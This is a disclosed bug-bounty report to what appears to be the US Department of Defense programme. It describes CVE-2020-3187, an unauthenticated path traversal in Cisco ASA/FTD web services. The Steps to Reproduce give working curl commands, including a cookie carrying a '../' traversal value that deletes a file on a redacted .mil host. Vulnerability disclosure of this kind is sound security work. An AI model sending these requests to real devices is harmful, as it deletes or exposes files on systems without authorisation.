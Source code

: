# CVE-2020-3187 - Unauthenticated Arbitrary File Deletion

## Report Details
- **Report ID**: 1555027
- **URL**: https://hackerone.com/reports/1555027
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-04-29T23:00:22.066Z
- **Disclosed**: 2022-05-12T20:01:33.880Z

## Reporter
- **Username**: b4dc4t
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and obtain read and delete access to sensitive files on a targeted system. The vulnerability is due to a lack of proper input validation of the HTTP URL. An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences.

The IP has a SSL certificate pointing to .█████
curl -kv https://█████████/

output
```
Server certificate:
*  subject: █████████.mil
```

## Impact

An exploit could allow the attacker to view or delete arbitrary files on the targeted system. When the device is reloaded after exploitation of this vulnerability, any files that were deleted are restored. The attacker can only view and delete files within the web services file system. This file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability can not be used to obtain access to ASA or FTD system files or underlying operating system (OS) files. Reloading the affected device will restore all files within the web services file system.

## System Host(s)
█████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2020-3187

## Steps to Reproduce
1.First I performed a curl request to validate that /session_password.html gave a 200 response.
curl -k -s -i https://███/+CSCOE+/session_password.html
2.Example to delete logo file "/+CSCOU+/csco_logo.gif".
curl -k -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://██████/+CSCOE+/session_password.html

_NOTE: No destructive behavior was performed on target, the above command will remove csco_logo.gif and can be restored on reboot of the device_

## Suggested Mitigation/Remediation Actions
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-path-JE3azWw43



## Attachments
No attachments
